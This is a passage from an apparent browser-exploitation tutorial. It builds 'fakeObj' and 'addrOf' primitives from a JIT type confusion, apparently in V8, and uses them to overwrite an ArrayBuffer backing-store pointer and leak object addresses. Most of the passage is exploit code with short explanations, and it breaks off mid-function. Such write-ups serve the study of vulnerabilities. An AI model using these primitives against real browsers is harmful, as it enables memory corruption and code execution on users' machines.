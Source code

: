 The final version of the `fakeObj` primitive will look like so.

```js
BigInt.prototype.toNumber = function toNumber() {
    uint64View[0] = this;
    return floatView[0];
};

function fakeObj(obj, newValue) {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      // Write to Backing Store Pointer via Property x2
      let orig = obj.p${p1}.x2;
      obj.p${p1}.x2 = ${newValue.toNumber()};
      return orig;
    }
  `);

    let pValues = [];
    // x2 Property Overlaps Backing Store Pointer for Array Buffer
    let o = {x1: 13.37,x2: 13.38};
    pValues[p1] = o;
    pValues[p2] = obj;

    for (let i = 0; i < 10000; i++) {
        // Force Map Check and Redundency Elimination
        o.x2 = 13.38;
        let res = vuln(makeObj(pValues));
        if (res != 13.38) {
            return res.toBigInt();
        }
    }
    throw "[!] fakeObj Primitive Failed"
}
```

Now that we finished that, since we'll be using an object with two in-line properties for our `fakeObj` primitive, let's make the same modification for our `addrOf` primitive to stay consistent, like so.

```js
function addrOf(obj) {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      // Trigger our type-confusion by accessing an out-of-bound property
        // This will load p1 from our object thinking it's a Double, but instead
        // due to overlap, it will load p2 which is an Object
      return obj.p${p1}.x2;
    }
  `);

    let pValues = [];
    // x2 Property Overlaps Backing Store Pointer for Array Buffer
    pValues[p1] = {x1: 13.37,x2: 13.38};
    pValues[p2] = {y: obj};

    for (let i = 0; i < 10000; i++) {
        let res = vuln(makeObj(pValues));
        if (res != 13.37) {
            // Subtract 1n from address due to pointer tagging.
            return res.toBigInt() - 1n;
```